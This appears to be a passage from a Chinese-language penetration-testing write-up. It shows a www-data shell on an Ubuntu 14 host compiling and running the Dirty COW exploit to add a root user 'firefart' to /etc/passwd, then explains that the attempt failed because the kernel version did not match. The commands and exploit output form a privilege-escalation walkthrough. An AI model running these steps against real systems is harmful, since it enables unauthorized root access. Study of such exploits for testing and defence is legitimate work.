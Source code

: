 ```
drwxr-xr-x 22 root     root      4096 Oct 27 10:36 ..
-rw-rw-r--  1 www-data www-data  5006 Oct 27 15:11 dirty.c
-rwxrwxr-x  1 www-data www-data 90917 Oct 27 13:45 linux-exploit-suggester.sh
www-data@ubuntu-14:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu-14:/tmp$ ls -al
ls -al
total 124
drwxrwxrwt  2 root     root      4096 Oct 27 15:25 .
drwxr-xr-x 22 root     root      4096 Oct 27 10:36 ..
-rwxrwxr-x  1 www-data www-data 14310 Oct 27 15:25 dirty
-rw-rw-r--  1 www-data www-data  5006 Oct 27 15:11 dirty.c
-rwxrwxr-x  1 www-data www-data 90917 Oct 27 13:45 linux-exploit-suggester.sh
www-data@ubuntu-14:/tmp$ ./dirty password123
./dirty password123
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password123
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f6dfe526000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu-14:/tmp$ /etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password123
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f6dfe526000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

虽然执行成功，但是却没有创建名为firefart的用户，可能是内核版本不符合要求。

ExploitDB中要求的系统版本是：Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation 

而目标的内核是`Linux ubuntu-14 4.4.0-142-generic`。

```
www-data@ubuntu-14:/tmp$ uname -a
uname -a
Linux ubuntu-14 4.4.0-142-generic #168~14.04.1-Ubuntu SMP Sat Jan 19 11:26:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
